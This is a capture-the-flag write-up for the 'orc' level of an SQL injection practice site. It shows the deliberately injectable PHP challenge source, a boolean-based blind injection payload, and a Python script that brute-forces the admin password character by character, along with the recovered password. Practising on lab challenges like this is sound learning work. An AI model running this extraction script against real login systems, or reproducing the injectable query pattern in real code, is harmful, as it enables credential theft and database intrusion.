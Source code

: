# orc

----------

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

Here we have to use blind injection to find the real password and input it to complete the level. Here we can use boolean based blind injection by giving pw value `' or pw like '{}%` and checking with each character.

So I made script for that :

```python
import requests
import string

session=requests.Session()

url="https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=' or pw like '{}%"
cookies={"PHPSESSID":"t2olebiumhrkeldqqkd0g2c5q0"}
pw=""
for j in range(10):
    for i in string.printable:
        r=requests.get(url.format(pw+i),cookies=cookies)
        if('Hello admin' in r.text[:200] and i not in "#%&"):
            pw+=i
            print("Password :",pw)
            break
print("Password :", pw)
```

it gave the password as `095a9852` and giving that as the value of pw solved the level
